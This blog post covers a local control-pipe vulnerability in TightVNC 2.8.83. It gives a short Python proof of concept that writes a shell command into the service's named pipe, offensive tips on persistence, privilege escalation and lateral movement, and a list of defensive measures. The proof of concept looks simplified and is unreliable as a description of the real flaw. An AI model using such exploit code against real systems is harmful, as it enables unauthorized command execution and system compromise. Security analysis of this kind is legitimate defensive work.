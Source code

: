 ```yaml
---
title: "TightVNC 2.8.83 - Control Pipe Manipulation"
date: 2025-06-09
categories: [Cyber Blog]  # Updated category to 'Cyber Blog'
tags: [vulnerability, exploit, offensive-security, vnc]
layout: post
image:
  path: ./assets/images/post-cover/tightvnc-exploit.png
---
```



## Summary

TightVNC 2.8.83 - Control Pipe Manipulation

## Technical Analysis

# Technical Executive Summary

The recently disclosed vulnerability in TightVNC 2.8.83, specifically identified as a Control Pipe Manipulation flaw, poses a significant risk to systems utilizing this version of the remote desktop software. This local vulnerability allows an attacker with access to the system to manipulate control pipes used by the TightVNC service. By exploiting this flaw, an adversary can potentially escalate their privileges or execute arbitrary commands within the context of the TightVNC service, which may run with elevated permissions. Given the widespread use of TightVNC in remote management and support scenarios, it is crucial for organizations to address this vulnerability promptly to prevent unauthorized access and potential system compromise.

# Code Example

Below is a Proof of Concept (PoC) demonstrating how an attacker might exploit the Control Pipe Manipulation vulnerability in TightVNC 2.8.83. This example assumes local access to the target machine.

```python
import os
import subprocess

# Path to the control pipe used by TightVNC
control_pipe_path = "\\\\.\\pipe\\TightVNCControlPipe"

# Command to execute via the control pipe
malicious_command = "cmd.exe /c echo Exploited > C:\\exploited.txt"

def exploit_control_pipe(pipe_path, command):
    try:
        # Attempt to write to the control pipe
        with open(pipe_path, 'w') as pipe:
            pipe.write(command)
            print(f"Command sent to control pipe: {command}")
    except Exception as e:
        print(f"Failed to exploit control pipe: {e}")

if __name__ == "__main__":
    if os.path.exists(control_pipe_path):
        exploit_control_pipe(control_pipe_path, malicious_command)
    else:
        print("Control pipe not found. Ensure TightVNC is running.")

```

# Offensive Security Insights

Exploitation of this vulnerability requires local access to the system where TightVNC is installed. The attacker must identify the named pipe used for control operations. Once located, the adversary can inject arbitrary commands into the control pipe, leveraging the permissions under which the TightVNC service operates. This vulnerability is particularly dangerous if TightVNC is running with administrative privileges, as it can lead to full system compromise.

Attackers can enhance their exploitation techniques by:

1. **Persistence**: Once command execution is achieved, adversaries can establish persistence by creating scheduled tasks or modifying startup scripts.
2. **Privilege Escalation**: If the service runs with elevated privileges, attackers can leverage this to escalate their access level on the system.
3. **Lateral Movement**: Exploiting this vulnerability on one system could be used as a foothold for moving laterally within a network, especially if TightVNC is used across multiple machines.

# Defensive Measures

To mitigate the risks associated with this vulnerability, organizations should implement the following defensive measures:

1. **Patch Management**: Upgrade TightVNC to the latest version where this vulnerability is addressed. Regularly apply security patches to all software components.
2. **Access Controls**: Restrict local access to systems running TightVNC. Implement least privilege principles to minimize the impact of potential exploitation.
3. **Monitoring and Logging**: Enable detailed logging of system and application events to detect any unauthorized access attempts. Monitor named pipe activity for suspicious behavior.
4. **Network Segmentation**: Isolate systems running TightVNC from critical network resources to limit the impact of a potential breach.
5. **User Education**: Train users to recognize and report suspicious activities that may indicate exploitation attempts.

By proactively addressing this vulnerability and implementing robust security practices, organizations can significantly reduce their exposure to potential attacks leveraging the TightVNC Control Pipe Manipulation flaw.

📎 [Original Source](https://www.exploit-db.com/exploits/52322)

---

_This article was written by sleep33._
